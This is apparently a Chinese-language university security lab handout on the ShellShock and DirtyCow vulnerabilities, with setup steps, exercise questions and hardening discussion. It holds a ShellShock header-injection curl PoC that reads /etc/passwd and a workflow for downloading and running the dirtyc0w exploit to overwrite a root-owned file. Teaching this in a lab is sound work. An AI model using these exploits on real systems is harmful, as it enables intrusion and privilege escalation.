# Lab 5 Linux DirtyCow and ShellShock

## ShellShock

实验环境：Ubuntu 14.04

实验工具：Apache2、wget、curl

实验目的：了解ShellShock漏洞的产生原因并熟悉CGI场景下ShellShock漏洞的利用

CVE-2014-6271 https://shellshocker.net/
> 描述引用来源：[https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
> 2014年9月24日bash被公布存在远程代码执行漏洞，漏洞会影响目前主流的操作系统平台，包括但不限于Redhat、CentOS、Ubuntu、Debian、Fedora 、Amazon Linux 、OS X 10.10等平台，此漏洞目前虽然有部分系统给出了补丁，但因为漏洞修补的时效性，及漏洞的范围之大，且还存在一些没有发布补丁的问题，所以仍被定义为高危漏洞。
> bash引自维基百科的描述为：＂bash，Unix shell的一种。1989年发布第一个正式版本，原先是计划用在GNU操作系统上，但能运行于大多数类Unix系统的操作系统之上，包括Linux与Mac OS X v10.4都将它作为默认shell。它也被移植到Microsoft Windows上的Cygwin与MinGW。

当apache使用CGI处理HTTP请求时，它会将请求中的某些信息复制到环境变量列表中，然后将请求转发给处理程序。 如果处理程序是一个Bash脚本，或者如果它使用syscall执行某个脚本，Bash将接收由服务器传递的环境变量，并按上述方式处理它们。 这就提供了一种通过构造HTTP请求来触发ShellShock漏洞的场景。

### 环境搭建
下载并编译存在漏洞版本的bash
```bash
# Please ensure to run the following command with root privilege.
apt update && apt -y install wget build-essential bison autoconf
mkdir -p /usr/local/src/cve-2014-6271 
wget -qO- https://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz | tar zx -C /usr/local/src/cve-2014-6271 --strip-components=1
cd /usr/local/src/cve-2014-6271 && ./configure --prefix=/usr/local/bash-4.3.0
make && make install
rm -rf /usr/local/src/cve-2014-6271

# Install apache2 and enable CGI mod for your Linux.
apt install apache2 && a2enmod cgi
cp ./safe.cgi ./vuln.cgi /usr/lib/cgi-bin
systemctl start apache2.service
```

在我们的`vuln.cgi`和`safe.cgi`中分别是使用未修复和已修复ShellShock的bash。

我们分别使用curl 访问如下两个CGI的页面

```bash
curl http://127.0.0.1/cgi-bin/vuln.cgi
curl http://127.0.0.1/cgi-bin/safe.cgi
```

如果返回类似如下的结果，说明环境配置成功

```bash
$ curl 127.0.0.1/cgi-bin/vuln.cgi
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 146
Content-Type: text/html
Date: Sun, 27 May 2018 18:05:42 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.33 (Debian)
Vary: Accept-Encoding

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Bash ShellShock</title>
</head>
<body>
<p>
Hello world
</p>
</body>
</html>
```

Q1:使用如下命令访问vuln.cgi所在的页面，查看response。

```bash
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' http://127.0.0.1/cgi-bin/vuln.cgi -I
```

Q2:尝试解释Q1中PoC。

Q3:还有没有其他场景可能会导致ShellShock漏洞，讨论ShellShock产生的原因。



## DirtyCow

实验环境：Ubuntu 12.04 [Download](https://jbox.sjtu.edu.cn/l/aoMMrv)

实验工具：gcc

实验目的：了解DirtyCow漏洞的产生原因并熟悉DirtyCow漏洞的利用

CVE-2016-5195 https://dirtycow.ninja/

> 描述引用来源：https://github.com/dirtycow 
> A race condition was found in the way the Linux kernel’s memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
> Linux内核的内存子系统在处理copy-on-write（COW）时出现竞争条件，导致私有只读存储器映射被破坏。
> The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016. 
> 这个bug自Linux 2.6.22(发布于 2007 年)存在至今，并于2016年10月18日被修复。

从描述中，我们可以了解到这是一个存在于内核的条件竞争的漏洞，因此我们可以尝试利用这个漏洞来达到提权的目的。

首先请检查你的实验环境的内核版本

```bash
uname -a
Linux ubuntu 3.13.0-96-generic #143-Ubuntu SMP Mon Aug 29 20:15:20 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
接下来创建一个只有root可读写，而低权限只能读不能写的文件

```bash
test@ubuntu:~$ echo ABCDEFGHIJKLMN > target.txt
test@ubuntu:~$ cat target.txt 
ABCDEFGHIJKLMN
test@ubuntu:~$ chmod 644 target.txt
test@ubuntu:~$ sudo chown root:root target.txt
test@ubuntu:~$ ls -al 
target.txt 19 May 28 22:03
```

此时，当你尝试用低权限账户去改写该文件时，会发现返回Permission denied
```bash
test@ubuntu:~$ echo aaaaaaaaa > target.txt
bash: target.txt: Permission denied
```

编译利用代码

```bash
test@ubuntu:~$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
test@ubuntu:~$ gcc -pthread dirtyc0w.c -o dirtyc0w
```

执行dirtyc0w, 你会发现文件成功被修改

```bash
test@ubuntu:~$ ./dirtyc0w target.txt abcdefghijklmn
test@ubuntu:~$ cat target.txt
abcdefghijklmn
```

Q1: 复现DirtyCow的利用过程

Q2: 该漏洞可能造成哪些影响

Q3: 如果你作为一家公司的运维，当该漏洞被纰漏并且Linux内核还未修复该漏洞，你该如何加固你的服务器？